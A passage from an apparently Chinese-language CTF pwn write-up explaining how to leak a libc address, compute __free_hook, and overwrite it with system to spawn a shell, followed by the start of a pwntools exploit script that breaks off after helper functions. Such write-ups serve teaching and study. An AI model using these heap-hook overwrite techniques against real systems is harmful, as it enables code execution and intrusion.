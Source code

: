 2. memory所在的.bss前面有一个libc地址，可以泄露出libc地址

    ![](https://tva1.sinaimg.cn/large/0081Kckwly1glq42eixdgj30xe09sq4e.jpg)

因为这个libc地址+0x10A8即为free_hook地址

![](https://tva1.sinaimg.cn/large/0081Kckwly1glq69kfjdbj30xa0de0vj.jpg)

所以构造出0x10A8，再加到得到的libc地址上就可以得到free_hook地址

由于在程序最后会free用于存放opcode的堆地址，所以可以将这个堆地址覆盖为free_hook-0x8的位置，这样可以填充`b'/bin/sh\x00'+p64(system)`来覆盖free_hook为system并且控制调用free时的参数为"/bin/sh"的地址

exp：

```python
#!/usr/bin/python


from pwn import *
import sys

context.log_level = 'debug'
context.arch='amd64'

local=1
binary_name='pwn'
libc_name='libc-2.23.so'

libc=ELF("./"+libc_name)
if local:
    p=process("./"+binary_name)
else:
    p=remote('',)
    e=ELF("./"+binary_name)

def z(a=''):
    if local:
        gdb.attach(p,a)
        if a=='':
            raw_input
    else:
        pass

ru=lambda x:p.recvuntil(x)
sl=lambda x:p.sendline(x)
sd=lambda x:p.send(x)
sa=lambda a,b:p.sendafter(a,b)
sla=lambda a,b:p.sendlineafter(a,b)
ia=lambda :p.interactive()

def leak_address():
    if(context.arch=='i386'):
        return u32(p.recv(4))
    else :
        return u64(p.recv(6).ljust(8,b'\x00'))

def code_generate(code, dst, op1, op2):
	res = code<<24
	res += dst<<16
	res += op1<<8
	res += op2
	return str(res)


sla("PC: ",'0')
```